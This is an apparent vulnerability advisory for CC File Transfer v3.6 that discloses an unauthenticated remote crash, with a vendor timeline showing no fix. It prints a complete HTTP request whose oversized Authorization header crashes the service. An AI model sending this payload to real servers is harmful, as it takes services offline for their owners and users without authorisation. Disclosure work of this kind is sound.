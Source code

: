 # introduction

CC File Transfer is free web based file transfer software built for people that need to transfer files PC to PC regularly. It 
helps you ashare files, photos, music and video with your friends. This file transfer program eliminates the hassles of FTP 
and limitations of email file transfer especially for transferring large files. The simple interface makes transferring files 
as easy as dragging and dropping files. It can transfer files over the Internet or LAN/home network even transfer files from 
Windows to Linux / Mac OS. 

http://www.ccfile.net/index.htm

# affected programs & issues

CCFile Windows Binary - v3.6

Tested on:  
Windows XP Professional Service Pack 3  
Windows 7 Professional Service Pack 1  

The web-based software allows a malicious user to remotely crash the service without authentication

# discovery

author: sec.9emin1@gmail.com  
discovered by: sec.9emin1@gmail.com  

The vulnerabilities were discovered using the Peach Fuzzer Community Edition  
https://www.peach.tech

# issue demonstration

The following HTTP GET request will crash the service remotely:    
```
GET /download.htm?file= HTTP/1.1
User-Agent: Mozilla/4.0
Host: 172.16.6.133:80
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Referer: http://172.16.6.133/
Authorization: Basic 
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
||||||||||||||||
Conection: Keep-Alive
```

# progress
 
080817 - Vendor Notified  
090817 - Vendor Acknowledged and responded with no intention to fix
